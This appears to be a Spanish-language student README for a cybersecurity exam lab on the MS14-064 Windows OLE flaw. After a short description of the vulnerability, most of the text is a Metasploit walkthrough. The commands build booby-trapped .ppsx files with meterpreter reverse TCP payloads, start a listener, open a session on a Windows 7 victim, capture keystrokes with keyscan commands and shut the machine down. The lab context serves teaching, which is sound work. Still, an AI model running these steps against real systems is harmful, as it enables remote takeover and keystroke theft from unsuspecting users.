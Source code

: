 # Parcial Ciber 
Vulnerabilidad MS14-064 Miscrosoft OLE: Estas vulnerabilidades podría permitir la ejecución remota de código si un usuario visita una página web especialmente diseñada con Internet Explorer. Un atacante que explotó con éxito las vulnerabilidades podría ejecutar código arbitrario en el contexto del usuario actual. Si el usuario actual ha iniciado sesión con derechos de usuario administrativos, un atacante podría instalar programas; ver, cambiar, o eliminar datos; o crear nuevas cuentas con plenos derechos de usuario. Los clientes cuyas cuentas están configuradas para tener menos derechos de usuario en el sistema podrían verse menos afectados que los usuarios que operan con derechos de usuario administrativos.

Sistema operativo: Microsoft Windows

Software:
Windows server 
Windows vista
Windows 8
Windows 8.1
Windows RT
Windows RT 8.1

Link del video: https://www.dropbox.com/s/a9lr9ooxpz7438r/Parcial.wmv?dl=0
Captura del trafico por wireshark: Fotos Añadidas

Instructivo para hacer el exploit:
msfconsole
use exploit/windows/fileformat/ms14_064_packager_run_as_admin

show options

set FILENAME MS14-064.ppsx

set LHOST 192.168.0.15

set LPORT 4444

set PAYLOAD windows/meterpreter/reverse_tcp

show options

exploit

use exploit/windows/fileformat/ms14_064_packager_python

show options

set FILENAME MS14-064_py.ppsx

set LHOST 192.168.0.15

set LPORT 4444

show options

exploit 
use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.0.15

set LPORT 4444

show options

exploit -j

ir a window 7 y abrir el archivo MS14-064.ppsx

set PAYLOAD python/meterpreter/reverse_tcp

rexploit -j

ir a window 7 y ejecutar archivo MS14-064_py.ppsx
En kali: ejecutar sessions
Mirar las sesiones activas
sessions -i 1 (id de la sesion) // Para iniciar la interaccion 
keyscan_start
keyscan_dump
shutdown





